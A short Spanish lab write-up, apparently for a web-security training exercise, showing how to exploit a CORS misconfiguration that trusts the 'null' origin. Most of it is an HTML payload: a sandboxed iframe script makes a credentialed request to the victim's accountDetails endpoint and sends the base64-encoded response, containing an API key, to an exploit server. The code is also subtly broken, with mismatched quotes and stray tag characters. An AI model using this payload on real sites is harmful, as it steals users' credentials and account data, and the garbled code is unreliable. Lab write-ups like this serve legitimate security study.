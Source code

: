 En este caso, sobre el recurso accountDetail, si meto la cabecera 

    Origin: test

No se ve reflejada en la respuesta de la peticion, pero si ponemos null, si se refleja

    Origin: null

Para este caso, hacemos el mismo ejercicio anterior, pero para que nos interpreta el Origin, debemos de hacerlo desdde un iframe, el cual, le vamos a dar privilegios de solo script, y darle el script que se ejecute pero dentro del iframe


```html
<iframe sandbox="allow-scripts" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = function(){
        location = 'https://exploit-server/?apikey= '' + btoa(req.responseText);
    };
    req.open('GET','https://burpsuite/accountDetails',true);
    req.withCredentials = true;
    req.send();

</script>>"
</iframe>
```

Y con esto tendriamos el ejercicio resuelto